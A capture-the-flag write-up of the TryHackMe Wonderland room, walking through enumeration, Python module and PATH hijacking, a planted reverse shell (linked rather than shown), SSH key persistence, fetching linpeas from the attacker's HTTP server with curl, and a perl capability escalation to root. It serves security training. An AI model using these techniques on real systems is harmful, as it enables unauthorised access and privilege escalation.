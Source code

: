Writeup for the Wonderland CTF Room on: https://tryhackme.com/

First we start by adding the ip to our /etc/hosts file.
Then we start our enumeration.

### Enumeration

## Nmap

We can see an open HTTP and SSH port.

[![https://imgur.com/jitshko.png](https://imgur.com/jitshko.png)](https://imgur.com/jitshko.png)

## Manual

Lets visit the site manually:
We dont see much.

[![https://imgur.com/11z0aWO.png](https://imgur.com/11z0aWO.png)](https://imgur.com/11z0aWO.png)

## Gobuster

Lets see what gobuster can reveal.

[![https://imgur.com/wFIBJg9.png](https://imgur.com/wFIBJg9.png)](https://imgur.com/wFIBJg9.png)

After checking the endpoints they dont seem to make to much sense to me.

But the /r endpoint tells us to keep going.

[![https://imgur.com/tE3tIbB.png](https://imgur.com/tE3tIbB.png)](https://imgur.com/tE3tIbB.png)

So lets see if we get further with recursive search.

## Dirbuster

[![https://imgur.com/80N9DDR.png](https://imgur.com/80N9DDR.png)](https://imgur.com/80N9DDR.png)

This looks prommising lets check it out.

In the source code we find credentials ! 

[![]](https://media.giphy.com/media/PjplWH49v1FS0/giphy.gif)

### Privilege Escalation

After logging in with SSH we can see the root.txt and a python script both owned by root.

[![https://imgur.com/0Q8Eaqt.png](https://imgur.com/0Q8Eaqt.png)](https://imgur.com/0Q8Eaqt.png)

Since the root flag is in our home directory and the hint says everything is upside down i checked the /root directory and found the user flag.

We can see the other users on the machine:

[![https://imgur.com/i40U4qz.png](https://imgur.com/i40U4qz.png)](https://imgur.com/i40U4qz.png)

We are allowed to run the python script as the user rabbit without password.

[![https://imgur.com/1WhFACr.png](https://imgur.com/1WhFACr.png)](https://imgur.com/1WhFACr.png)

Lets take a closer look at the script:

The short version is:

import random

for i in range(10):
    line = random.choice(poem.split("\n"))
    print("The line was:\t", line)

Since there is no absolute path we can create our own random.py and it will be imported and executed here:

So create a file called random.py and paste the code for a python reverseshell inside.

https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Methodology%20and%20Resources/Reverse%20Shell%20Cheatsheet.md#python

// Make sure to remove the python -c ' ' 

sudo -u rabbit /usr/bin/python3.6 walrus_and_the_carpenter.py

[![https://imgur.com/21Wo62w.png](https://imgur.com/21Wo62w.png)](https://imgur.com/21Wo62w.png)

And we are the rabbit ! :) 

In the homedirectory i created a pair of ssh keys:

mkdir .ssh
cd .ssh
touch authorized_keys
ssh-keygen
cat id_rsa.pub > authorized_keys

and then copied the id_rsa key to my hostmachine to loginto rabbit with that.

In the home directory of rabbit we have a TeaParty file.
When we cat it, we can see a lot of unreadable stuff but some lines are showing.

[![https://imgur.com/6BzJE3a.png](https://imgur.com/6BzJE3a.png)](https://imgur.com/6BzJE3a.png)


So the script uses date.

We can do something similair than before.

We create our own date:

[![https://imgur.com/uUxT0tg.png](https://imgur.com/uUxT0tg.png)](https://imgur.com/uUxT0tg.png)

This time we maniupulate our own path so that the next time we execute a bashscript it looks for it in our home directory, also we need to make it executable:

[![https://imgur.com/3t3QSJj.png](https://imgur.com/3t3QSJj.png)](https://imgur.com/3t3QSJj.png)

Now we execute it.

We made it to hutter! 

[![https://imgur.com/UjpfCOj.png](https://imgur.com/UjpfCOj.png)](https://imgur.com/UjpfCOj.png)

We found his password.

[![https://imgur.com/t6uf2iB.png](https://imgur.com/t6uf2iB.png)](https://imgur.com/t6uf2iB.png)

Lets ssh in and proceed! 

At this point i will just run linpeas.
Download it from here on your Host: 

https://github.com/carlospolop/privilege-escalation-awesome-scripts-suite/tree/master/linPEAS

In the same directory set up a http server with python:

Python3 -m http.server 1337

On your target go in the /tmp directory:

curl http://yourip:ip/linpeas.sh


There is a interisting capability set on perl:

[![https://imgur.com/68H4nts.png](https://imgur.com/68H4nts.png)](https://imgur.com/68H4nts.png)

Alternativly we could have also found it like this:

[![https://imgur.com/khkwlxr.png](https://imgur.com/khkwlxr.png)](https://imgur.com/khkwlxr.png)

When we check on GTFOBins on perl capabilities:

[![https://imgur.com/L8aSgEu.png](https://imgur.com/L8aSgEu.png)](https://imgur.com/L8aSgEu.png)

I tried this didn't work.
we don't have permission to use perl. 

Lets find a way to bypass that!

When we look at the manpage of capabilities.

https://man7.org/linux/man-pages/man7/capabilities.7.html

We can see that we can use it to change the suid.

[![https://imgur.com/HdwcoFW.png](https://imgur.com/HdwcoFW.png)](https://imgur.com/HdwcoFW.png)

Looks like we can run perl as hatter

[![https://imgur.com/k8pJYiL.png](https://imgur.com/k8pJYiL.png)](https://imgur.com/k8pJYiL.png)

We can use the information we collected and execute the privilege escalation from GTFOBINS to get root.

[![https://imgur.com/FF1InnC.png](https://imgur.com/FF1InnC.png)](https://imgur.com/FF1InnC.png)


[![](https://media.giphy.com/media/RhiMxsXuFy9KU/giphy.gif)

Thank you for reading :) 
